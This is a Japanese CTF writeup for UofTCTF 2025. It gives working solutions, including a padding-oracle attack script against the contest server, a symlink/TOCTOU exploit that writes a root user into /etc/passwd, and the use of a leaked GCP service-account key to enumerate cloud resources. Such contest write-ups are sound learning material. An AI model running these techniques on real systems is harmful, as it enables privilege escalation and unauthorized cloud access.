

# UofTCTF 2025 Writeup / Upsolve

UofTCTF 2025（<https://ctftime.org/event/2570/>）に参加しました。  
<s>復習しようとしたら問題が見れなくなっていたので、簡易</s>Writeup + Upsolveです。  
※問題と公式解答はちゃんとありました(<https://github.com/UofTCTF/uoftctf-2025-chals-public>)  
Misc問を主にやってましたが、Miscは後1問解きたかったです。

<!-- @import "[TOC]" {cmd="toc" depthFrom=2 depthTo=3 orderedList=false} -->

<!-- code_chunk_output -->

- [Crypto](#crypto)
  - [Enchanted Oracle](#enchanted-oracle)
- [Misc](#misc)
  - [Math Test](#math-test)
  - [Racing](#racing)
  - [Racing 2](#racing-2)
  - [Out of the Container](#out-of-the-container)
- [Rev](#rev)
  - [Highly Optimized](#highly-optimized)

<!-- /code_chunk_output -->

## Crypto

### Enchanted Oracle

タイトルや問題コードから、AESのCBCモードに対してPadding Oracle Attackをする問題だとわかる。

- 問題コード: `aes-cbc.py`

```py
from base64 import b64encode, b64decode
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad

print("Welcome to the AES-CBC oracle!")
key = open("key", "rb").read()
while True:
    print("Do you want to encrypt the flag or decrypt a message?")
    print("1. Encrypt the flag")
    print("2. Decrypt a message")
    choice = input("Your choice: ")

    if choice == "1":
        cipher = AES.new(key=key, mode=AES.MODE_CBC)
        ciphertext = cipher.iv + \
            cipher.encrypt(pad(b"random", cipher.block_size))

        print(f"{b64encode(ciphertext).decode()}")

    elif choice == "2":
        line = input().strip()
        data = b64decode(line)
        iv, ciphertext = data[:16], data[16:]

        cipher = AES.new(key=key, mode=AES.MODE_CBC, iv=iv)
        try:
            plaintext = unpad(cipher.decrypt(ciphertext),
                              cipher.block_size).decode('latin1')
        except Exception as e:
            print("Error!")
            continue

        if plaintext == "I am an authenticated admin, please give me the flag":
            print("Victory! Your flag:")
            print(open("flag.txt").read())
        else:
            print("Unknown command!")
```

問題コードを見ると、サーバ側でAESのCBCモードで暗号文を復号する処理があるが、復号時に例外が発生すると、`Error!`が出力されるため、Padding Oracle Attackができる。

今回は`I am an authenticated admin, please give me the flag`を暗号化して送信する必要があるため、4ブロック分(1ブロック=16bytes)作れば良い。

- `solver.py`

```py
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
import os
from base64 import b64encode, b64decode
from pwn import *

def is_valid(server, data):
    server.recvuntil(b'Your choice: ').decode()
    server.sendline(str(2).encode())
    server.sendline(b64encode(data))
    msg = server.recvline().decode()
    return not 'Error!' in msg


def attack(server, cipher, buffer = bytearray(16), start = 15):
    iv = bytearray(16)
    for byte_index in range(start, -1, -1):
        padding_value = 16 - byte_index
        for guess in range(256):
            modified_iv = bytearray(iv)
            for k in range(byte_index + 1, 16):
                modified_iv[k] ^= buffer[k] ^ padding_value
            modified_iv[byte_index] ^= guess

            if is_valid(server, bytes(modified_iv + cipher)):
                buffer[byte_index] = guess ^ padding_value
                break
    return bytes(buffer)


def block(ivcipher, ptext):
    c_bytes = b64decode(ivcipher)
    c_iv = bytearray(c_bytes[:16])
    c_b1 = c_bytes[16:]
    plaintext = pad(b"random", 16)
    flip_bits = ptext
    offset = 0
    for i in range(16):
        c_iv[i] ^= plaintext[offset + i] ^ flip_bits[offset + i]
    return (c_iv, c_b1)


def xor(a1, b1):
    result = bytearray(16)
    for i in range(16):
        result[i] = a1[i] ^ b1[i]
    return result

text = "I am an authenticated admin, please give me the flag"
b_text = pad(text.encode('latin1'), 16)
varr = [b_text[i: i+16] for i in range(0, len(b_text), 16)]

target_ip = '34.162.82.42'
target_port = 5000
rc1 = "WKD2+UdXpVYubUwjx8dfhRhr0AXn2YYIRr/qoCmZMP0=" # あらかじめ`random`の暗号文を取得しておく
c_iv, c_b4 = block(rc1, varr[3])
io = remote(target_ip, target_port)
d_b4 = attack(io, c_b4)
io.close()
c_b3 = xor(d_b4, varr[3])
io = remote(target_ip, target_port)
d_b3 = attack(io, c_b3)
io.close()
c_b2 = xor(d_b3, varr[2])
io = remote(target_ip, target_port)
d_b2 = attack(io, c_b2)
io.close()
c_b1 = xor(d_b2, varr[1])
io = remote(target_ip, target_port)
d_b1 = attack(io, c_b1)
io.close()
c_iv = xor(d_b1, varr[0])
result = b64encode(c_iv+c_b1+c_b2+c_b3+c_b4)
print(result)
# A7jzoG+DQNAvNSDMUoTPsosZFAsBwoVYsJL1Ks3K3cjDRTTCU5ndZlqIWuimd0FyTK35+iQ2o1Aoa0olwcFZgxhr0AXn2YYIRr/qoCmZMP0=
```

サーバが悪いのか、1byte探索するのに1分とかかかる + 時間が掛かりすぎるとタイムアウトするので、1ブロック毎にサーバに再接続するようにしている。

```sh
$ nc 34.162.82.42 5000
Welcome to the AES-CBC oracle!
Do you want to encrypt the flag or decrypt a message?
1. Encrypt the flag
2. Decrypt a message
Your choice: 2
A7jzoG+DQNAvNSDMUoTPsosZFAsBwoVYsJL1Ks3K3cjDRTTCU5ndZlqIWuimd0FyTK35+iQ2o1Aoa0olwcFZgxhr0AXn2YYIRr/qoCmZMP0=
Victory! Your flag:
uoftctf{y3s_1_kn3w_y0u_w3r3_w0r7hy!!!}
```

## Misc

### Math Test

計算問題を1000問解く問題。

- 問題コード: `chall.py`

```py
import random
from flag import FLAG

def genRandMath():
    eqn = f'{random.randint(-1000, 1000)}'
    eqn = f"{eqn} {random.choice(['+', '*', '-', '//'])} {random.randint(-1000, 1000)}"
    while random.randint(0, 3) != 1:
        eqn = f"{eqn} {random.choice(['+', '*', '-', '//'])} {random.randint(-1000, 1000)}"
    try:
        res = eval(eqn)
        return eqn, res
    except ZeroDivisionError:
        return genRandMath()

print("Welcome to a simple math test.")
print("If you solve these basic math questions, I will give you the flag.")
print("Good Luck")

for i in range(1000):
    eqn, correct = genRandMath()
    print(f"Question: {eqn}")
    res = int(input("Answer: "))
    if res != correct:
        print(f"Wrong!! Correct answer is {correct}")
        exit()
    
    print(f"Correct {i+1}/1000")

print(f"Congratz! Here is the flag {FLAG}")
```

スクリプトを書いて終了。

- `solver.py`

```py
from pwn import *
import re

io = remote('34.66.235.106', 5000)

for i in range(1000):
  msg = io.recvuntil(b'Answer: ').decode()
  m = re.search(r'Question: (.*)', msg)
  formula = m.group(1)
  # print(formula)
  result = eval(formula)
  # print(result)
  io.sendline(str(result).encode())

io.interactive()
```

### Racing

タイトル的にレースコンディションを使った問題と思われる。

- 問題コード: `chal.c`

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char **argv)
{
    if (setuid(0) != 0)
    {
        perror("Error setting UID");
        return EXIT_FAILURE;
    }

    char *fn = "/home/user/permitted";
    char buffer[128];
    char f[128];
    FILE *fp;

    if (!access(fn, R_OK))
    {
        printf("Enter file to read: ");
        fgets(f, sizeof(f), stdin);
        f[strcspn(f, "\n")] = 0;

        if (strstr(f, "flag") != NULL)
        {
            printf("Can't read the 'flag' file.\n");
            return 1;
        }

        if (strlen(f) == 0)
        {
            fp = fopen(fn, "r");
        }
        else
        {
            fp = fopen(f, "r");
        }

        fread(buffer, sizeof(char), sizeof(buffer) - 1, fp);
        fclose(fp);
        printf("%s\n", buffer);
        return 0;
    }
    else
    {
        printf("Cannot read file.\n");
        return 1;
    }
}
```

問題サーバにはSSHで一般ユーザとして接続でき、プレイヤー毎に独立した環境が用意される。  
`/flag.txt`があるが、root権限でしか読みこむことができない。  
また、`/challenge/chal`に実行ファイルがあり、SUIDが設定されていたため、一般ユーザでもroot権限で実行できる状態となっていた。

実行ファイルを実行すると、読み込み先のファイル名を聞かれる。  
`/flag.txt`を指定すれば良さそうだが、指定ファイル名に`flag`が入っていると`Can't read the 'flag' file.`と出力される。

```bash
$ ln -s /flag.txt /home/user/permitted
$ /challenge/chal 
Enter file to read: /home/user/permitted
uoftctf{r4c3_c0nd1t10n5_4r3_c00l}
```

### Racing 2

前問ではレースコンディションを使わなかったので、おそらくこちらで使うと推測。

- chal.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char **argv)
{
    char *fn = "/home/user/permitted";
    char buffer[128];
    FILE *fp;

    if (!access(fn, W_OK))
    {
        printf("Enter text to write: ");
        scanf("%100s", buffer);
        fp = fopen(fn, "w");
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
        return 0;
    }
    else
    {
        printf("Cannot write to file.\n");
        return 1;
    }
}
```

実行環境は前問と同様。  
異なるのは任意のファイル読み込みではなく、固定ファイル`/home/user/permitted`に任意の文字列を書き込む処理となっている点。

TOCTOUの脆弱性があるため、`if (!access(fn, W_OK))`によるファイル書き込みチェックと実行処理の間で該当ファイルの差し替えをすれば任意のファイルに書き込みができる。

後は、書き込むファイルとその内容だが、`/flag.txt`はroot権限があれば読み込めるため、権限昇格を狙う。  
単純に権限昇格するだけならroot権限を持つ任意のユーザを作成すれば良い。

```bash
$ touch /home/user/permitted
$ /challenge/chal 
Enter text to write: ^Z
[1]+  Stopped                 /challenge/chal
$ rm /home/user/permitted
$ ln -s /etc/passwd /home/user/permitted
$ openssl passwd test
$1$n0qg7bd3$FNysyqIbIyU4sCfVRzNjO0
$ fg
/challenge/chal
aaaa:$1$n0qg7bd3$FNysyqIbIyU4sCfVRzNjO0:0:0:root:/root:/bin/bash
$ cat /etc/passwd

aaaa:$1$n0qg7bd3$FNysyqIbIyU4sCfVRzNjO0:0:0:root:/root:/bin/bashuser@containerssh-zsl9f:/$ 
$ su aaaa
Password: 
aaaa@containerssh-zsl9f:/# id
uid=0(aaaa) gid=0(root) groups=0(root)
aaaa@containerssh-zsl9f:/# cat /flag.txt
uoftctf{f1nn_mcm155113_15_my_f4v0r173_ch4r4c73r}
```

### Out of the Container

問題文には、`docker pull windex123/config-tester`とあり、Docker ImageのLayer差分から情報を取得する問題と思われる。

Docker Hubで内容を確認する。  
<https://hub.docker.com/layers/windex123/config-tester/v1/images/sha256-49a688ef0b5a5d6780b9c4b879dff6c65c0b69cce4ed9cf767679a8edbef98a9>



`RUN /bin/sh -c cat /tmp/config.txt`が怪しい。

バージョン指定しないとエラーになったため、以下のコマンドでDocker Imageを取得する。

```bash
docker pull windex123/config-tester:v1
```

inspectコマンドで詳細を確認する。

```bash
$ docker inspect windex123/config-tester:v1
[
    {
...(SNIP)...
        "Os": "linux",
        "Size": 4044599,
        "GraphDriver": {
            "Data": {
                "LowerDir": "/var/lib/docker/overlay2/95841b9d1df6283be4b0639a644edcd556aad3456664daa91b375251bbe5de5c/diff:/var/lib/docker/overlay2/6046ba246e0489fd337d148921646dbb98fd51da146802995923fb7c54096945/diff:/var/lib/docker/overlay2/50019c718c33d6825e14cb7da4e5e57c541f2698c5dff561c06a937e2d661d37/diff",
                "MergedDir": "/var/lib/docker/overlay2/ed63510dd4ad81ae82a8838ce75ed88d4d51300b598d913306797a62273121d7/merged",
                "UpperDir": "/var/lib/docker/overlay2/ed63510dd4ad81ae82a8838ce75ed88d4d51300b598d913306797a62273121d7/diff",
                "WorkDir": "/var/lib/docker/overlay2/ed63510dd4ad81ae82a8838ce75ed88d4d51300b598d913306797a62273121d7/work"
            },
            "Name": "overlay2"
        },
...(SNIP)...
    }
]
```

Layerの差分が`/var/lib/docker/overlay2/`配下にあるため、調べてみると、`config.txt`や`config.json`が確認できる。

```bash
$ sudo ls -liR /var/lib/docker/overlay2/6046ba246e0489fd337d148921646dbb98fd51da146802995923fb7c54096945
/var/lib/docker/overlay2/6046ba246e0489fd337d148921646dbb98fd51da146802995923fb7c54096945:
total 16
97233 -rw------- 1 root root    0 Jan 12 02:30 committed
97212 drwxr-xr-x 3 root root 4096 Jan 12 02:30 diff
97214 -rw-r--r-- 1 root root   26 Jan 12 02:30 link
97217 -rw-r--r-- 1 root root   28 Jan 12 02:30 lower
97215 drwx------ 2 root root 4096 Jan 12 02:30 work

/var/lib/docker/overlay2/6046ba246e0489fd337d148921646dbb98fd51da146802995923fb7c54096945/diff:
total 4
97220 drwxrwxrwt 2 root root 4096 Dec 29 02:11 tmp

/var/lib/docker/overlay2/6046ba246e0489fd337d148921646dbb98fd51da146802995923fb7c54096945/diff/tmp:
total 8
97221 -rw-r--r-- 1 root root 2394 Dec 29 02:10 config.json
97222 -rw-r--r-- 1 root root   15 Dec 29 02:08 config.txt

/var/lib/docker/overlay2/6046ba246e0489fd337d148921646dbb98fd51da146802995923fb7c54096945/work:
total 0
```

`config.txt`には大した情報がなかったが、`config.json`にはGoogle Cloudの認証情報が入っていた。  
(念のため一部マスクしてます。)

- `config.json`

```json
{
  "type": "service_account",
  "project_id": "uoftctf-2025-docker-chal",
  "private_key_id": "...(SNIP)...",
  "private_key": "...(SNIP)...",
  "client_email": "docker-builder@uoftctf-2025-docker-chal.iam.gserviceaccount.com",
  "client_id": "...(SNIP)...",
  "auth_uri": "https://accounts.google.com/o/oauth2/auth",
  "token_uri": "https://oauth2.googleapis.com/token",
  "auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
  "client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/docker-builder%40uoftctf-2025-docker-chal.iam.gserviceaccount.com",
  "universe_domain": "googleapis.com"
}
```

gcloudコマンドでプロジェクトや権限を確認する。

```bash
gcloud auth activate-service-account --key-file config.json
gcloud auth list
gcloud projects list
gcloud projects get-iam-policy uoftctf-2025-docker-chal
```

いろいろ探してみる。

```bash
$ gcloud artifacts repositories list
Listing items under project uoftctf-2025-docker-chal, across all locations.

                                                               ARTIFACT_REGISTRY
REPOSITORY  FORMAT  MODE                 DESCRIPTION  LOCATION  LABELS  ENCRYPTION          CREATE_TIME          UPDATE_TIME          SIZE (MB)
containers  DOCKER  STANDARD_REPOSITORY               us-east1          Google-managed key  2024-12-29T02:30:31  2024-12-29T06:30:18  14.181
```

```bash
$ gcloud artifacts packages list --repository containers --location us-east1
Listing items under project uoftctf-2025-docker-chal, location us-east1, repository containers.

PACKAGE               CREATE_TIME          UPDATE_TIME          ANNOTATIONS
countdown             2024-12-29T02:38:30  2024-12-29T06:30:18
countdown-test        2024-12-29T02:39:33  2024-12-29T06:29:39
countdown-test/cache  2024-12-29T02:39:29  2024-12-29T02:39:29
countdown/cache       2024-12-29T02:38:29  2024-12-29T02:38:29
```

```bash
$ gcloud artifacts docker images list us-east1-docker.pkg.dev/uoftctf-2025-docker-chal/containers
Listing items under project uoftctf-2025-docker-chal, location us-east1, repository containers.

IMAGE                                                                             DIGEST                                                                   CREATE_TIME          UPDATE_TIME          SIZE
us-east1-docker.pkg.dev/uoftctf-2025-docker-chal/containers/countdown             sha256:4e5405cf64720a3e9c0afc2039dbe600fec2076347a142d50ae93f00feb6b065  2024-12-29T06:30:15  2024-12-29T06:30:15  2159150
us-east1-docker.pkg.dev/uoftctf-2025-docker-chal/containers/countdown             sha256:595e0f35255aa9edf67c73a173ff74dc7906561a54fc9784b6e276eed483bf57  2024-12-29T02:39:50  2024-12-29T02:39:50  2159167
us-east1-docker.pkg.dev/uoftctf-2025-docker-chal/containers/countdown             sha256:98f9bd0b018eef43544880ad592c340ad8fe3c2c461e9402efad51aed6906ee4  2024-12-29T06:30:18  2024-12-29T06:30:18  2159164
us-east1-docker.pkg.dev/uoftctf-2025-docker-chal/containers/countdown             sha256:cd163d7161fac9e9f5eb84dbb46cdfad31b62bcf7d5cf8d281ba34680fdbe8bb  2024-12-29T06:30:07  2024-12-29T06:30:07  2159168
us-east1-docker.pkg.dev/uoftctf-2025-docker-chal/containers/countdown             sha256:f86a848e67ec868a891a439fc5e1ec1903148e6a82fef4ccdb2631611e8428ff  2024-12-29T02:38:30  2024-12-29T02:38:30  2158977
us-east1-docker.pkg.dev/uoftctf-2025-docker-chal/containers/countdown-test        sha256:1b0a6ea53d46f8d5210c6f2e2bd95e645b9757d00dd8cd212737400c1ef792fd  2024-12-29T06:29:39  2024-12-29T06:29:39  12688075
us-east1-docker.pkg.dev/uoftctf-2025-docker-chal/containers/countdown-test        sha256:cfe47e704b0c919f7bca420fd0de82ff2f977f3058507026da6f5a7929c43068  2024-12-29T02:39:33  2024-12-29T02:39:33  12688075
us-east1-docker.pkg.dev/uoftctf-2025-docker-chal/containers/countdown-test/cache  sha256:1e8978107985ee1c3231b0f33234e1fce786e44bb0592a30857d78a72f491df4  2024-12-29T02:39:29  2024-12-29T02:39:29  9042709
us-east1-docker.pkg.dev/uoftctf-2025-docker-chal/containers/countdown-test/cache  sha256:3cdc65f55402ff4956837bebb098c589ee6e80c6e27e65c27ecafa5dd8333f07  2024-12-29T02:39:29  2024-12-29T02:39:29  598
us-east1-docker.pkg.dev/uoftctf-2025-docker-chal/containers/countdown/cache       sha256:a08e027075bd78d02f90b670a40bfd2d13e6ae8e8f6b5e22f2e9657a5bc73ef2  2024-12-29T02:38:29  2024-12-29T02:38:29  509
us-east1-docker.pkg.dev/uoftctf-2025-docker-chal/containers/countdown/cache       sha256:daab0d103c5cb9ca9cd0536da57207ccdcce91c7f783efc49612e9b168e48a87  2024-12-29T02:38:29  2024-12-29T02:38:29  339
```

```bash
$ gcloud builds list
ID                                    CREATE_TIME                DURATION  SOURCE                                                                                                  IMAGES  STATUS
73e88f4b-25e2-42c9-9f21-4f09179b01a7  2024-12-28T21:30:06+00:00  10S       gs://uoftctf-2025-docker-chal_cloudbuild/source/1735421405.701703-f6bc36d5206d41e1b5fe6e52172f04d9.tgz  -       SUCCESS
63fd6916-5ea1-4f64-a500-697a2509c616  2024-12-28T21:29:57+00:00  18S       gs://uoftctf-2025-docker-chal_cloudbuild/source/1735421396.7854-82812ab5e8f64808aa494daaf4289b4d.tgz    -       SUCCESS
54523aec-c160-4580-8b29-54c575eea0af  2024-12-28T21:29:53+00:00  14S       gs://uoftctf-2025-docker-chal_cloudbuild/source/1735421392.683126-942a0f6b964f42e9955a9419b1cae910.tgz  -       SUCCESS
c1b329e3-be72-47af-9fc3-6cdd8841d24e  2024-12-28T21:29:23+00:00  16S       gs://uoftctf-2025-docker-chal_cloudbuild/source/1735421362.491894-f177f04b6e0f40f2ac3d7ae9be44df09.tgz  -       SUCCESS
2d353ba4-1198-47b4-94bc-43de2b05ccb2  2024-12-28T17:39:39+00:00  11S       gs://uoftctf-2025-docker-chal_cloudbuild/source/1735407500.030089-978c61fd95eb4b7dabeaf7203e9d1241.tgz  -       SUCCESS
4a4bbc46-5a8b-4d36-a23f-39366ab2eac7  2024-12-28T17:39:12+00:00  21S       gs://uoftctf-2025-docker-chal_cloudbuild/source/1735407551.681712-a6648e6d7a1c40a3923bdfbb353f0a05.tgz  -       SUCCESS
4a596848-069f-47c0-a92d-30c9f72593d6  2024-12-28T17:38:21+00:00  10S       gs://uoftctf-2025-docker-chal_cloudbuild/source/1735407500.030089-978c61fd95eb4b7dabeaf7203e9d1241.tgz  -       SUCCESS
```

ビルドログに謎のGitHubリンクがあった。

```bash
$ gcloud builds log c1b329e3-be72-47af-9fc3-6cdd8841d24e
-------------------------------------------------------------------------------------------------------- REMOTE BUILD OUTPUT ---------------------------------------------------------------------------------------------------------
starting build "c1b329e3-be72-47af-9fc3-6cdd8841d24e"

FETCHSOURCE
Fetching storage object: gs://uoftctf-2025-docker-chal_cloudbuild/source/1735421362.491894-f177f04b6e0f40f2ac3d7ae9be44df09.tgz#1735421363123901
Copying gs://uoftctf-2025-docker-chal_cloudbuild/source/1735421362.491894-f177f04b6e0f40f2ac3d7ae9be44df09.tgz#1735421363123901...
/ [1 files][  541.0 B/  541.0 B]                                                
Operation completed over 1 objects/541.0 B.                                      
BUILD
Pulling image: gcr.io/kaniko-project/executor:latest
latest: Pulling from kaniko-project/executor
Digest: sha256:9e69fd4330ec887829c780f5126dd80edc663df6def362cd22e79bcdf00ac53f
Status: Downloaded newer image for gcr.io/kaniko-project/executor:latest
gcr.io/kaniko-project/executor:latest
INFO[0000] Retrieving image manifest alpine             
INFO[0000] Retrieving image alpine from registry index.docker.io 
INFO[0000] Retrieving image manifest alpine             
INFO[0000] Returning cached image manifest              
INFO[0001] Built cross stage deps: map[]                
INFO[0001] Retrieving image manifest alpine             
INFO[0001] Returning cached image manifest              
INFO[0001] Retrieving image manifest alpine             
INFO[0001] Returning cached image manifest              
INFO[0001] Executing 0 build triggers                   
INFO[0001] Building stage 'alpine' [idx: '0', base-idx: '-1'] 
INFO[0001] Checking for cached layer us-east1-docker.pkg.dev/uoftctf-2025-docker-chal/containers/countdown-test/cache:37409699ab537d1b7e7fae6d7f8f517917c8bb636f20f3108d269b5004cccacd... 
INFO[0001] Using caching version of cmd: RUN apk add git 
INFO[0001] Checking for cached layer us-east1-docker.pkg.dev/uoftctf-2025-docker-chal/containers/countdown-test/cache:54f3efa6b28a29988a06e4f9a5794ea2965a6cebd4dc9a5c0da5bf4f8c6fe571... 
INFO[0002] Using caching version of cmd: RUN git clone https://github.com/OverjoyedValidity/countdown-timer.git /tmp &&     rm -rf /tmp 
INFO[0002] Skipping unpacking as no commands require it. 
INFO[0002] RUN apk add git                              
INFO[0002] Found cached layer, extracting to filesystem 
INFO[0005] RUN git clone https://github.com/OverjoyedValidity/countdown-timer.git /tmp &&     rm -rf /tmp 
INFO[0005] Found cached layer, extracting to filesystem 
INFO[0005] CMD [ "ps", "faux" ]                         
INFO[0005] No files changed in this command, skipping snapshotting. 
INFO[0005] Pushing image to us-east1-docker.pkg.dev/uoftctf-2025-docker-chal/containers/countdown-test 
INFO[0007] Pushed us-east1-docker.pkg.dev/uoftctf-2025-docker-chal/containers/countdown-test@sha256:1b0a6ea53d46f8d5210c6f2e2bd95e645b9757d00dd8cd212737400c1ef792fd 
PUSH
DONE
```

該当のGitHubのリポジトリを調べると、以下にフラグがあった。
<https://github.com/OverjoyedValidity/countdown-timer/blob/main/settings.txt>

## Rev

### Highly Optimized

解けそうで解けなかった問題。  
1つの実行バイナリが与えられる。

```bash
$ file highly-optimized 
highly-optimized: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b7adbc992d67014542b769741cb27404014c187c, for GNU/Linux 3.2.0, stripped
```

実行するとフラグが出力されるようだが、待てども処理が終わらない。

```bash
$ ./highly-optimized 
I will tell you the flag, if you don't mind waiting a few moments...

```

デコンパイルして確認してみる。ついでにPythonコードにする。  
デコンパイルには[dogbolt](https://dogbolt.org/)を使って、その中で一番良さそうなのを参考にした。

```py
array = [
  0,
  58541471996096977,
  0,
  131,
  2,
  1,
  0,
  131,
  3,
  4,
  9,
  5,
  0,
  42044768350026761,
  0,
  130,
  2,
  1,
  0,
  130,
  3,
  ...
  60541299067063520,
  0,
  147,
  2,
  1,
  0,
  147,
  3,
  4,
  9,
  5,
  6
]

def main():
    v3 = 0
    v10 = [0] * 137  # Initialize v10 as a list of 137 elements, filled with 0.

    print("I will tell you the flag, if you don't mind waiting a few moments...")
    
    v4 = 0
    qword_4020 = array  # Placeholder: Define this list based on your actual data.

    while True:
        v5 = v4 + 1
        if qword_4020[v4] == 0:
            v8 = v3
            v4 += 2
            v3 += 1
            v10[v8 + 1] = qword_4020[v5]
        elif qword_4020[v4] == 1:
            v6 = v10[v3]
            v7 = v3
            v3 += 1
            v10[v7 + 1] = v6
            v4 = v5
        elif qword_4020[v4] == 2:
            v10[v3 - 1] -= v10[v3]
            v3 -= 1
            v4 += 1
        elif qword_4020[v4] == 3:
            v10[v3 - 1] = int(v10[v3] < v10[v3 - 1])
            v3 -= 1
            v4 += 1
        elif qword_4020[v4] == 4:
            v3 -= 1
            v4 += 2
            if v10[v3 + 1]:
                v4 -= int(qword_4020[v5])
        elif qword_4020[v4] == 5:
            print(chr(v10[v3]), end='')  # Print the character corresponding to v10[v3]
            v3 -= 1
            v4 = v5
        elif qword_4020[v4] == 6:
            return 0
        else:
            v4 += 1

main()
```

競技中にやったのはここまで。  
競技中はコンパイラの最適化によって処理が欠落してて、何かしら復元しないといけないのかと思っていたが、どうやら長時間かかる計算処理を最適化して短くするという問題らしい。

動きを見ているとわかるが、特定のブロックでループしている。  
ループしている箇所`elif qword_4020[v4] == 4`にブレークポイントを張って変数の動きを確認してみる。

```bash
v10[v3]: 58541471996096846
v10[v3]: 58541471996096715
v10[v3]: 58541471996096584
v10[v3]: 58541471996096453
```

1ループごとにarrayに含まれる大きい数値からある数を引いている。  
（最初のブロックでは、`58541471996096977`から`131`を引き続けている。）  
その数が引く数より小さくなるとそのループを抜けて、次のブロックでループするっぽい。

後は、mod関数を使って時間の掛かっているループ処理を書き換えればフラグを出力させることができそう。

- `prog.py`

```py
array = [0, 58541471996096977, 0, 131, 2, 1, 0, 131, 3, 4, 9, 5, 0, 42044768350026761, 0, 130, 2, 1, 0, 130, 3, 4, 9, 5, 0, 104093991169115492, 0, 146, 2, 1, 0, 146, 3, 4, 9, 5, 0, 128563766204312876, 0, 120, 2, 1, 0, 120, 3, 4, 9, 5, 0, 118183210859642192, 0, 121, 2, 1, 0, 121, 3, 4, 9, 5, 0, 31759579751918036, 0, 160, 2, 1, 0, 160, 3, 4, 9, 5, 0, 37922191436980238, 0, 143, 2, 1, 0, 143, 3, 4, 9, 5, 0, 139168641091494270, 0, 147, 2, 1, 0, 147, 3, 4, 9, 5, 0, 152909243010516658, 0, 138, 2, 1, 0, 138, 3, 4, 9, 5, 0, 88946238250907572, 0, 163, 2, 1, 0, 163, 3, 4, 9, 5, 0, 179824179782506694, 0, 170, 2, 1, 0, 170, 3, 4, 9, 5, 0, 45174131531571636, 0, 52, 2, 1, 0, 52, 3, 4, 9, 5, 0, 58562759984008198, 0, 65, 2, 1, 0, 65, 3, 4, 9, 5, 0, 60481677685756789, 0, 120, 2, 1, 0, 120, 3, 4, 9, 5, 0, 67459793699055203, 0, 141, 2, 1, 0, 141, 3, 4, 9, 5, 0, 33046999828954552, 0, 137, 2, 1, 0, 137, 3, 4, 9, 5, 0, 67963425659164234, 0, 135, 2, 1, 0, 135, 3, 4, 9, 5, 0, 43796972412552174, 0, 117, 2, 1, 0, 117, 3, 4, 9, 5, 0, 6408227318773632, 0, 68, 2, 1, 0, 68, 3, 4, 9, 5, 0, 75570635003173892, 0, 68, 2, 1, 0, 68, 3, 4, 9, 5, 0, 26842364308653847, 0, 122, 2, 1, 0, 122, 3, 4, 9, 5, 0, 60541299067063520, 0, 147, 2, 1, 0, 147, 3, 4, 9, 5, 6]
for i in range(1, len(array)-1, 12):
    array[i] = array[i] % array[i + 2] + array[i + 2]

def main():
    v3 = 0
    v10 = [0] * 137  # Initialize v10 as a list of 137 elements, filled with 0.

    print("I will tell you the flag, if you don't mind waiting a few moments...")
    
    v4 = 0
    qword_4020 = array  # Placeholder: Define this list based on your actual data.

    while True:
        v5 = v4 + 1
        if qword_4020[v4] == 0:
            v8 = v3
            v4 += 2
            v3 += 1
            v10[v8 + 1] = qword_4020[v5]
        elif qword_4020[v4] == 1:
            v6 = v10[v3]
            v7 = v3
            v3 += 1
            v10[v7 + 1] = v6
            v4 = v5
        elif qword_4020[v4] == 2:
            v10[v3 - 1] -= v10[v3]
            v3 -= 1
            v4 += 1
        elif qword_4020[v4] == 3:
            v10[v3 - 1] = int(v10[v3] < v10[v3 - 1])
            v3 -= 1
            v4 += 1
        elif qword_4020[v4] == 4:
            v3 -= 1
            v4 += 2
            if v10[v3 + 1]:
                v4 -= int(qword_4020[v5])
        elif qword_4020[v4] == 5:
            print(chr(v10[v3]), end='')  # Print the character corresponding to v10[v3]
            v3 -= 1
            v4 = v5
        elif qword_4020[v4] == 6:
            return 0
        else:
            v4 += 1

main()
```

実行すると、フラグが出力された。

```bash
$ python prog.py 
I will tell you the flag, if you don't mind waiting a few moments...
uoftctf{vmr00m_vmr00m}
```
